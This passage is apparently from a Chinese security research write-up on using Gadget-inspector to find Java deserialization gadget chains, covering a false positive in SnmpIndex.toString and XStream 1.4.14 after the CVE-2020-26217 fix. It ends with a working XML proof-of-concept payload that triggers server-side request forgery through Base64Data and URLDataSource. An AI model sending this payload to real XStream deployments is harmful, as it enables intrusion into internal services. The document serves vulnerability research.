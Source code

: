 SnmpIndex.toString代码如下：

![image-20210119104858617](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144920-505285.png)

elements()函数如下，可以看到返回的枚举实例含有this参数，所以被认为参数可控，但是实际无法改变它的类型为ContextEnumerator。

![image-20210119104959316](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144920-748806.png)

解决方法：将SnmpIndex.toString加入黑名单。

#### 下载地址

https://github.com/JackOfMostTrades/gadgetinspector

https://github.com/threedr3am/gadgetinspector

### XStream 1.4.14

#### source定制

1.4.14对于CVE-2020-26217的修复措施是将ImageIO和ProcessBuilder加入黑名单，堵了利用的两个类，没有将入口堵住。所以将Base64Data.get作为source。

我们只需要在Gadget-inspector中实现三个组件，分别是

1. SerializableDecider：序列化决策者，这个决策者的作用主要围绕着apply方法的实现，通过apply方法，判断目标类class是否具备可序列化，那么相对而言就是是否可以被反序列化，像Java原生反序列化就需要class实现java/io/Serializable序列化接口才能反序列化。
2. ImplementationFinder：对于一个接口interface，该组件主要用于判断它的实现类，是否能被反序列化
3. SourceDiscovery：链的起始端搜索类，类似于jackson对于json的解析，在反序列化时，会有一定条件的触发setter、getter方法，那么，这些方法即是整个gadget chain的入口点，而该组件就是用于搜索所有具备这样特征的类

#### 发现的Gadget链

##### SSRF

只需定制好source之后就可以发现这一条链

```
com/sun/xml/internal/bind/v2/runtime/unmarshaller/Base64Data.get()[B (0)
  javax/activation/URLDataSource.getInputStream()Ljava/io/InputStream; (0)
  java/net/URL.openStream()Ljava/io/InputStream; (0)
```

poc

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='javax.activation.URLDataSource'>
                        <url>http://localhost:9999/ssrf?a=1</url>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```
